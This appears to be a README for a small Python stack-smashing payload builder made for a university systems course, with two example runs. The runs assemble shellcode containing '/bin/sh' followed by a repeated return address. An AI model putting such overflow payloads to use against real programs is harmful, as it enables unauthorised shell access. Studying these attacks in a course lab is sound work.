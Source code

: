 # Simple stack smashing tool
A simple stack smash tool that I designed for use in CPSC213

## Using command line arguments
#### beginstr:
The code that you want to run in hexadecimal
#### addr:
The address that you want to jump to (the location of beginstr in your system. most likely)
#### num:
The number of times you want to repeat addr (can go on indefinitely and say 1000, however this may overwrite data outside the stack, etc.)
### Example
    ~$ python3 stacksmashtool.py 6f40010000000007f1022f62696e2f736800 0000417c 29
    Your hex string:
    6f40010000000007f1022f62696e2f7368000000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c
    Your formatted string:
    o@?/bin/shA|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|%

## Using regular input
Exactly the same inputs as above, except you will be prompted for the input instead of specifying it beforehand
### Example
    ~$ python3 stacksmashtool.py
    Enter the code you want to run:
    6f40010000000007f1022f62696e2f736800
    What is the address you want to jump to?
    0000417c
    How many entries do you want to overwrite?
    29
    Your hex string:
    6f40010000000007f1022f62696e2f7368000000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c0000417c
    Your formatted string:
    o@?/bin/shA|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|A|%
    
